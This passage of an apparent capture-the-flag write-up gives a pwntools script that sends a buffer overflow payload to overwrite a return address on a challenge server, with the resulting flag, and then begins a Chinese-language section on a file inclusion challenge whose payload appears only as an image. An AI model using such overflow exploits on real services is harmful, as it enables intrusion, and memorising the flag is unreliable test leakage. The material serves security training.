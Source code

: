 ```python
from pwn import*
addr = "challenge.qihangcup.cn:34879".split(":")
io=remote(addr[0],addr[1])

payload= b'A'*80 + b'B'*8 + p64(0x4011CA) 
io.sendline(payload)
io.interactive()

# QHCTF{1f5cf23b-8f48-4b65-bedf-23db65262678}
```

# web

## eazy-include | FINISHED

观察是文件包含，尝试双写绕过等方法后均无效

使用脚本生成payload如下

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505204116525.png)
